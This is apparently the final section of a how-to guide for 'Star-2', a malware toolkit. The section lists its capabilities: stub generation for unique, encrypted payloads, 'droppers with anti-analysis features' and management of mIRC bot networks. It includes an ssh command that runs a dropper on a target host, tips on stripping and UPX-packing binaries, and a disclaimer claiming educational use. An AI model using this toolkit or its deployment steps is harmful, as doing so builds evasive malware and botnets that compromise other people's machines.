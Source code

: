 ```bash
ssh user@target "chmod +x /tmp/deploy_dropper && /tmp/deploy_dropper"
```

---

## 📞 Support & Resources

### **Getting Help**
1. **Check the logs**: Look for error messages in output
2. **Verify versions**: Ensure you're using the latest code
3. **Test components**: Test each component individually
4. **Check permissions**: Ensure proper file permissions

### **Useful Commands**
```bash
# Check system info
uname -a
gcc --version

# Check file integrity
md5sum native_stub_generator
sha256sum native_encryptor

# Monitor system resources
top -p $(pgrep native_stub_generator)
```

### **Performance Tips**
- Use `-O2` optimization for faster execution
- Use `-s` flag to strip symbols and reduce size
- Use UPX for additional compression
- Cross-compile for target platform compatibility

---

## 🎉 Congratulations!

You've now mastered the Star-2 system! You can:
- ✅ Generate unique stubs with 100% uniqueness
- ✅ Encrypt any file type with AES-128-CTR
- ✅ Create advanced droppers with anti-analysis features
- ✅ Deploy and manage mIRC bot networks
- ✅ Troubleshoot and optimize performance

**Remember**: Use this system responsibly and in accordance with applicable laws and regulations.

---

*Star-2 How-To Guide v2.0 - Complete Edition*  
*Built with ❤️ for educational and research purposes*